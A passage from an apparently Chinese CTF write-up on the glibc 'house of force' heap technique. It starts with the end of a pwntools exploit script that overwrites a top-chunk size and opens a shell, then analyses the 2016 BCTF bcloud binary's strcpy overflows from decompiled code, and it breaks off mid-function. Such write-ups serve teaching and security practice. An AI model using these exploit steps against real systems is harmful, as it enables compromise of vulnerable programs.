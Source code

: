 ```python

additem(0x20,b'aaaa')
modify(0,0x30,b'a'*0x28+struct.pack("<qx",-1))
additem(-88,b'bbbb')
additem(0x10,p64(magic)*2)
p.recvuntil(b':')
p.sendline(b'5')

p.interactive()
```

### 2016_bctf_bcloud
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/house-of-force/2016_bctf_bcloud
> 题目版本：ubuntu16.04 & glibc-2.23

#### 分析
```sh
➜  2016_bctf_bcloud checksec bcloud
[*] '/Pwn/heap/house-of-force/2016_bctf_bcloud/bcloud'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

init_name函数strcpy有漏洞，当输入64个字符后，strcpy就会顺便将tmp的值也拷贝至堆块中，也就泄露了堆基址
```c
unsigned int init_name()
{
  char s[64]; // [esp+1Ch] [ebp-5Ch] BYREF
  char *tmp; // [esp+5Ch] [ebp-1Ch]
  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(s, 0, 0x50u);
  puts("Input your name:");
  read_str(s, 64, '\n');
  tmp = (char *)malloc(64u);
  name = tmp;
  strcpy(tmp, s);
  info(tmp);
  return __readgsdword(0x14u) ^ v3;
}
```

init_org_host函数中的strcpy也有漏洞，若输入Org时输入64个字符，在strcpy时就会将v3开头4个字符复制到top chunk的size部分，从而实现扩大top chunk
```c
unsigned int init_org_host()
{
  char s[64]; // [esp+1Ch] [ebp-9Ch] BYREF
  char *v2; // [esp+5Ch] [ebp-5Ch]
  char v3[68]; // [esp+60h] [ebp-58h] BYREF
  char *v4; // [esp+A4h] [ebp-14h]
  unsigned int v5; // [esp+ACh] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(s, 0, 144u);
  puts("Org:");
  read_str(s, 64, '\n');
  puts("Host:");
  read_str(v3, 64, '\n');
  v4 = (char *)malloc(64u);
  v2 = (char *)malloc(64u);
```